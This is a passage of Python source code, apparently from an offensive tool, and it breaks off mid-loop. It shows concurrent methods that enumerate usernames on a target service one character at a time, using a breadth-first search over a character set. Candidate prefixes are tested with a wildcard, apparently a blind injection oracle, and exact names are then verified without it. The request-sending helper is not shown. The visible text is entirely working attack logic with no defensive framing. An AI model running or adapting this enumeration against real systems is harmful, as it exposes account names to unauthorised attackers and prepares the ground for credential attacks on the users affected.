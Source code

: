 ```python
    async def extend_username_concurrent(self, prefix):
        """
        CONCURRENT USERNAME EXTENSION
        Test all possible next characters simultaneously
        """
        if len(prefix) >= MAX_USERNAME_LENGTH:
            return []
        
        candidates = [prefix + char for char in CHARSET]
        
        # Test all candidates concurrently
        results = await self.test_batch_concurrent(candidates, use_wildcard=True)
        
        valid_extensions = [candidate for candidate in candidates if results.get(candidate, False)]
        return valid_extensions
    
    async def verify_exact_username(self, username):
        """Verify username without wildcard"""
        return await self.test_username_fast(username, use_wildcard=False)
    
    async def bfs_discover_concurrent(self):
        """
        HIGH-SPEED BFS DISCOVERY
        Process multiple prefix branches concurrently
        """
        print("[*] Starting concurrent BFS username discovery...")
        
        # Get starting characters
        queue = deque(await self.discover_first_chars_fast())
        
        if not queue:
            print("[!] No valid starting characters found!")
            return []
        
        discovered_prefixes = set(queue)
        complete_usernames = set()
        level = 0
        
        while queue:
            level += 1
            level_size = len(queue)
            print(f"\n[*] Level {level}: Processing {level_size} prefixes")
            
            # Process entire level concurrently
            current_level = list(queue)
            queue.clear()
            
            # Split into batches for progress tracking
            batch_size = CONCURRENT_TESTS
            for i in range(0, len(current_level), batch_size):
                batch = current_level[i:i+batch_size]
                
                print(f"    [*] Batch {i//batch_size + 1}/{(len(current_level)-1)//batch_size + 1}: {len(batch)} prefixes", end=" ")
                
                # Extend all prefixes in batch concurrently
                extension_tasks = [self.extend_username_concurrent(prefix) for prefix in batch]
                extension_results = await asyncio.gather(*extension_tasks)
                
                found_in_batch = 0
                for prefix, extensions in zip(batch, extension_results):
                    if not extensions:
                        # No extensions = complete username, verify it
```
